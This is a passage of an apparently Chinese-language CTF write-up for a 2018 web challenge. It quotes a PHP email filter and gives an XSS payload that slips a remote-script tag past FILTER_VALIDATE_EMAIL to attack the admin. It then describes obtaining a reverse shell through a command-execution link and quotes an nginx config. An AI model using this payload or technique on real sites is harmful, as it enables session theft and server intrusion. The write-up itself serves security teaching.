 在邮箱验证界面查看源码，可以得到一串代码

```php
<!--check.php
if($_POST['email']) {
$email = $_POST['email'];
if(!filter_var($email,FILTER_VALIDATE_EMAIL)){
echo "error email, please check your email";
}else{
echo "等待管理员自动审核";
echo $email;
}
}
?>
-->
```

可以看到这里使用了 `FILTER_VALIDATE_EMAIL` 来进行了验证,这里直接 `"<script/src=http://xxxx></script>"@qq.com` 就可以绕过了

这里看到直接echo了邮箱地址，并且说 『管理员审核』，而且点击后台管理提示需要本地才能访问，那么差不多能想到需要使用xss去打管理员，然后访问一下admin.php看看是什么内容

但是收到内容后发现并没有cookie

![](/img/swpuctf-2018-web-writeup/201812200912104.png)

那么可能需要去访问一下admin.php的源码看看内容

![](/img/swpuctf-2018-web-writeup/20181220091215.jpg)

发现一个很奇怪的链接。 测试了一下发现是可以直接执行系统命令的，于是弹了个shell回来，发现根目录下的flag是 `flag:flag` 并且是400的权限，于是读了读其它文件，在nginx配置文件中看到有个奇怪的东西

```
server {
        listen 6324 default_server;

        root /var/www/html;

        index index.html index.htm index.nginx-debian.html;

        server_name _;

        location / {
                root /var/www/html;
                try_files $uri $uri/ =404;
        }

        location ~ ^/4f0a5ead5aef34138fcbf8cf00029e7b/.*\.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/var/run/php5-fpm-flag.sock;
        }

        location ~ \.php$ {
                root /var/www/html/www;
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/var/run/php5-fpm.sock;
        }
}

```
